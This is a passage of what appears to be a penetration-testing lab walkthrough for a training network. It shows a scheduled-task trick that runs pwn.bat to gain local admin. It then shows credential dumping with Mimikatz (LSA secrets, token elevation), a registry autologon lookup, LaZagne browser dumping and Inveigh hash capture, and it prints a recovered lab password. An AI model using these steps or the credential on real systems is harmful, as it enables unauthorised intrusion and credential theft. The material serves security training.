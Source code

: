                Select Setup Scheduled/Triggered Tasks
                
                Add task (Triggered)
                
                Update folder to monitor to be C:\Users\ilfserveradm\Documents
               
                Check Run task if a file is added to the monitor folder or subfolder(s)
                
                Choose Run any other Program and choose C:\Users\ilfserveradm\Documents\pwn.bat
               
                Uncheck Login as the following user to run task
               
                Click Finish and then Save


        
        Finally, to trigger the task, create a new .txt file in the C:\Users\ilfserveradm\Documents directory. We can check and see that the ilfserveradm user was added to the Administrators group.

        C:\Users\ilfserveradm> net localgroup administrators




                        //Post-Exploitation/Pillaging

        


        Next, we'll perform some post-exploitation on the MS01 host. We do see a couple of interesting files in the root of the c:\ drive named budget_data.xlsx and Inlanefreight.kdbx that would be worth looking into and potentially reporting to the client if they are not in their intended location. Next, we can use Mimikatz, elevate to an NT AUTHORITY\SYSTEM token and dump LSA secrets.

        c:\Users\ilfserveradm\Documents> mimikatz.exe

        mimikatz # log

        mimikatz # privilege::debug

        mimikatz # lsadump::secrets

        mimikatz # token::elevate

        mimikatz # lsadump::secrets
        
        We find a set password but no associated username. This appears to be for an account configured with autologon, so we can query the Registry to find the username.

        PS C:\Users\ilfserveradm> Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"

        Now we have a new credential pair: mssqladm:DBAilfreight1!.

        Before we move on, let's check for any other credentials. We see Firefox installed, so we can grab the LaZagne tool to try to dump any credentials saved in the browser. No luck, but always worth a check.

        c:\Users\ilfserveradm\Documents> lazagne.exe browsers -firefox

        It's also worth running Inveigh once we have local admin on a host to see if we can obtain password hashes for any users.

        PS C:\Users\ilfserveradm\Documents> Import-Module .\Inveigh.ps1
        
